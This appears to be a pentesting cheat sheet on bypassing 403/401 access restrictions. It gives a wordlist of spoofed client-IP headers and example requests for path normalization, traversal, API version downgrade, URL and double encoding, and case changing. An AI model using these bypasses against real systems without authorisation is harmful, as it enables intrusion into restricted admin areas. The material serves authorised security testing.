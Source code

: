 ### Header Injection
```
X-Forwarded-Host: 127.0.0.1 >> 200 OK
```
Try this wordlist:
```txt
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Host: localhost
```
### Exploiting Path Normalization
```
/secure/admin >> 403 Access Denied
/secure/./admin >> 200 OK
```
### Path traversal
```
/admin >> 403 Access Denied
/secure/../admin >> 200 OK
```
### api version changing
```
/v2/users/1337 >> Access Denied
/v1/users/1337 >> 200 OK
/v1.1/users/1337 >> 200 OK
```
### HTML encoding
```
/hidden >> 403 Access Denied
/hidde%6e >> 200 OK
```
If it not works, try double encoding.
```
/hidde%256e > 200 OK
```
### Case changing
```
/admin >> 403 Access Denied
/admiN >> 200 OK
```

### Exploiting Via Race Condition

[More Info](https://web.archive.org/web/20230204201819/https://amineaboud.medium.com/story-of-a-weird-vulnerability-i-found-on-facebook-fc0875eb5125)

## More Info

[Hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/403-and-401-bypasses.html)

